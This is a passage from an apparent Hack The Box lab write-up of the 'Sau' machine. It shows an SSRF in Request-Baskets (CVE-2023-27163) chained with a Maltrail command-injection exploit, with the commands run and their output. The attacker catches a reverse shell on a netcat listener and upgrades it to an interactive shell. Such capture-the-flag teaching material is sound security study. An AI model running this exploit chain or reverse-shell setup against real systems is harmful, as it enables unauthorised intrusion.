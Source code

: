 ```
```

When I google for any vulnerability in the specified version, I found that there is an unauthenticated OS command injection vulnerability, which should allow us to get a shell on the machine. I found this [exploit PoC](https://github.com/spookier/Maltrail-v0.53-Exploit).

The vulnerability is in the */login* page, so I ran the first SSRF exploit to target the *http://127.0.0.1:80/login*. I then modified the second RCE exploit to target the given URL directly (because it already points to */login*). This results in a successful reverse shell, giving me a shell as the user `puma`.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sau-linux]
└─$ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/login
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "qygopp" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/qygopp now makes the server request to http://127.0.0.1:80/login.
> Authorization: r2B36xhLg7sox88CJvfokb0_uZR5cgbhNlncXT944Vf5

┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sau-linux]
└─$ python3 exploit.py 10.10.16.4 1337 http://10.10.11.224:55555/qygopp
Running exploit on http://10.10.11.224:55555/qygopp
Login failed
```

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sau-linux]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.224] 57082
$ whoami
whoami
puma
```

#### Shell as root
###### Shell enumeration
The first thing I do is to upgrade the shell to be more interactive. Here's the sequence of commands that I usually run to do it.

```
$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
puma@sau:~$ ^Z
[1]+  Stopped                 nc -lvnp 1337

┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sau-linux]
└─$ stty raw -echo; fg
nc -lvnp 1337
             whoami
puma
puma@sau:~$
```
